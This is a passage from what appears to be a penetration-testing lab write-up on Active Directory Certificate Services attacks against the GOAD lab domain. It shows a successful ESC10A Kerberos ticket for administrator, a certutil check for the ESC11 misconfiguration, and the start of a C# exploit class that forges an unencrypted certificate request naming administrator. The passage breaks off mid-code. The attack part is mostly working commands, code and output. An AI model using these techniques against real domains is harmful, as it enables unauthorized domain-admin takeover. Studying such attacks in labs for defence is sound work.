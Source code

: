 ```bash
[+] TGT request successful!

  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 6:45:12 PM
  EndTime                  : 1/4/2025 4:45:12 AM
  RenewTill                : 1/10/2025 6:45:12 PM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
```

Perfect! We've successfully used ESC10A to authenticate as administrator using a machine certificate mapped via `altSecurityIdentities`.

## ESC11: IF_ENFORCEENCRYPTICERTREQUEST

ESC11 targets CAs configured with IF_ENFORCEENCRYPTICERTREQUEST flag, which can be bypassed under certain conditions.

### Attack Vector

ESC11 exploits RPC call tampering when certificate requests are transmitted unencrypted to the Certificate Authority.

**Important:** The "unencrypted request" only succeeds when the CA has `IF_ENFORCEENCRYPTICERTREQUEST` cleared. If this flag is set (the secure default on modern Windows versions), the RPC interface forces packet privacy and NTLM relay fails.

### Prerequisites

Let's check the GOAD CA configuration. Check if CA has IF_ENFORCEENCRYPTICERTREQUEST flag cleared:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -getreg CA\InterfaceFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\ESSOS-CA\InterfaceFlags REG_DWORD = 0x0 (0)

```

H0x0 = vulnerable (no encryption required), 0x200 = hardened (encryption required). IF_ENFORCEENCRYPTICERTREQUEST is NOT set (flag would be 0x200) - this makes the CA vulnerable to ESC11.

1. **CA has IF_ENFORCEENCRYPTICERTREQUEST flag cleared** ✓
2. **Unencrypted certificate request** ✓

### Bypass Technique

```csharp
// Create unencrypted certificate request for GOAD environment
public class ESC11Exploit
{
    public string CreateUnencryptedRequest(string subject, string altname = "administrator@essos.local")
    {
        var request = new CX509CertificateRequestPkcs10();
        var privateKey = new CX509PrivateKey();
        
        // Configure for unencrypted submission to GOAD CA
        privateKey.ProviderName = "Microsoft Software Key Storage Provider";
        privateKey.Create();
        
        request.InitializeFromPrivateKey(
            X509CertificateEnrollmentContext.ContextUser,
            privateKey,
```